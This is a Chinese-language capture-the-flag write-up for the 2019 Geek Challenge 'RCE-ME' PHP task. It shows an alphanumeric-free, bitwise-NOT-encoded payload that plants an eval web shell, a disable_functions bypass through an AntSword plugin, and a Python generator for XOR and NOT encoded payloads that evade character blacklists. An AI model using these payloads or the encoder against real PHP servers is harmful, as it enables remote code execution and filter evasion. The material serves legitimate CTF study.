


# 极客大挑战2019-RCE-ME

源码

```
<?php
error_reporting(0);
if(isset($_GET['code'])){
            $code=$_GET['code'];
                    if(strlen($code)>40){
                                        die("This is too Long.");
                                                }
                    if(preg_match("/[A-Za-z0-9]+/",$code)){
                                        die("NO.");
                                                }
                    @eval($code);
}
else{
            highlight_file(__FILE__);
}

// ?>
```

很明显要我们利用危险函数eval进行命令执行来得到flag，并且这里还过滤掉了数字和字母，且我们GET传参的值要小于40个字符。

我们这里使用取反绕过
构造命令`assert(eval($_POST[1]););`

```
<?php


$system="assert";
$command='eval($_POST[1]);';

echo '[*] (~'.urlencode(~$system).')(~'.urlencode(~$command).');';

```

```
[*] (~%9E%8C%8C%9A%8D%8B)(~%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%CE%A2%D6%C4);
```

payload：

```
url/?code=(~%9E%8C%8C%9A%8D%8B)(~%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%CE%A2%D6%C4);
```

然后用蚁剑连接，成功连接

发现一个flag文件和readflag文件，但是flag文件内什么都没有，readflag文件直接打开全是乱码

并且无法执行命令

这个时候访问下phpinfo()查看下配置就会发现，在disable_function内禁用了很大部分函数，在终端也因此执行不了操作。

---

这时我们可以使用蚁剑提供了可以用来绕过的插件(XD)disable_function



模式选择php7_GC_UAF

然后在shell里执行

```
/readflag
```

得到flag



---

## 异或取反脚本

```
#blacklist列表中的字符在生成的拼接字符串中不会被使用,除了部分是被过滤掉的字符，其余的如',"等字符考虑可能会导致闭合等问题暂列入
#如果有其他的要求可以对blacklist列表进行删改
blacklist=["`","'",'"',"\\""0","1","2","3","4","5","6","7","8","9","a","b","c","d","e","f","g","h","i","j","k","l","m","n","o","p","q","r","s","t","u","v","w","x","y","z","A","B","C","D","E","F","G","H","I","J","K","L","M","N","O","P","Q","R","S","T","U","V","W","X","Y","Z"]
#不同于取反,一个目标字符串使用异或的方式可以获大量的可用拼接字符串,这里只取了1种组合的拼接字符串
#如果需要获得更多拼接字符串查看该函数中的result列表
def yiHuo(string):
    global operationEffient
    global blacklist
    operationEffient=False
    result=[]
    finalstr='""^""'
    rawstr=string
    for i in range(0,len(rawstr)):
        result.extend([[]])
    for k in range(0,len(rawstr)):
        for i in range(32,255):
           if(chr(i) not in blacklist):
                for j in range(32,255):
                    if(chr(j) not in blacklist):
                        if(i^j==ord(rawstr[k])):
                            result[k].extend([[hex(i).replace('0x',"%"),hex(j).replace('0x',"%")]])
    #在这里往下的函数部分,result列表均是可用的(已填充了获得的拼接字符串)
    for i in range(0,len(result)):
        if(len(result[i])==0):
            return("该字符在现有黑名单下无法拼接出->%s"%(rawstr[i]))
    for i in range(0,len(rawstr)):
        finalstr=finalstr[:finalstr.find("^",0)-1]+result[i][0][0]+'"'+finalstr[finalstr.find("^",0):]
        finalstr=finalstr[:finalstr.rfind("'",0)]+result[i][0][1]+finalstr[finalstr.rfind('"',0):]   
    return(finalstr)
def quFan(string):
    global operationEffient
    global blacklist
    operationEffient=False
    result=[]
    finalstr='~""'
    rawstr=string
    for i in range(0,len(rawstr)):
        result.extend([[]])
    for k in range(0,len(rawstr)):
        for i in range(32,255):
           if(chr(i) not in blacklist and chr(int(bin(~i & 0xFF)[2:],2))==rawstr[k]):
               result[k].extend([hex(i).replace('0x',"%")])
    for i in range(0,len(result)):
        if(len(result[i])==0):
            return("该字符在现有黑名单下无法拼接出->%s"%(rawstr[i]))
    print(result)
    for i in range(0,len(rawstr)):
        finalstr=finalstr[:finalstr.rfind('"',0)]+result[i][0]+finalstr[finalstr.rfind('"',0):]
    return(finalstr)
while(True):
    operationEffient=True
    target=input("请输入待转换字符\n")
    while(operationEffient):
        operation=input("请选择操作\n1->使用异或拼接\n2->使用取反获得\n")
        if(operation=="1"):
            result=yiHuo(target)
            pass
        elif(operation=="2"):
            result=quFan(target)
            pass
        else:
            print("选择的操作无效")
            continue
        print(result)
```


